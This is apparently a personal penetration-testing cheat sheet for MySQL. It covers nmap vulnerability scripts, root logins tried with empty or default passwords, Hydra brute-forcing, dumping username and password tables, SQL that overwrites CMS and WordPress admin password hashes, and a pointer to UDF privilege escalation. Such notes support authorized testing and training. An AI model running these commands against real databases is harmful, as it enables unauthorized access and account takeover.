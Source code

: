 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### nmap
```bash - kali
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse $TARGET -p 3306
```

#### wp-config.php file
```bash - kali
cat wp-config.php
```

#### Remote login
```bash - kali
mysql --host=$TARGET -u root -P 3306 -p
```

#### Local login
```bash - kali
mysql -h localhost -u root -P 3306 -p
```

#### passwords
Try with empty password or:

```bash - kali
root
```

or brute:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against MySQL]]

```SQL
show databases;
```

```SQL
use <DATABASE>;
```

```SQL
show tables;
```

```SQL
describe <TABLE>;
```

```SQL
select * from <TABLE>;
```

or

```SQL
select usernames,passwords from <TABLE>;
```

![[Pasted image 20220126101801.png]]

#### Change password
```SQL
update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin';
```

**cms_siteprefs would be found under show tables;**

![[Pasted image 20220126102546.png]]

or

```bash - kali
echo -n 'admin' | md5sum
```

==21232f297a57a5a743894a0e4a801fc3==

```SQL
update cms_users SET password='21232f297a57a5a743894a0e4a801fc3' WHERE username='admin';
```

![[Pasted image 20220126101821.png]]

#### MYSQL UDF 4.x/5.0
[https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

```bash - kali
nmap --script=mysql-brute $TARGET
```

```bash - kali
mysql -u username -h $TARGET -p
```

```bash - kali
mysql --host=127.0.0.1 --port=13306 --user=wp -p
```

#### MySQL to Wordpress password

```bash - kali
mysql -u root -h $TARGET -p
```

Try with empty password, also try with password:

```bash - kali
root
```

```bash - kali
select * from users
```

```bash - kali
UPDATE 'users' SET 'pass'=MD5('password') WHERE 'user_login' = 'admin';
```
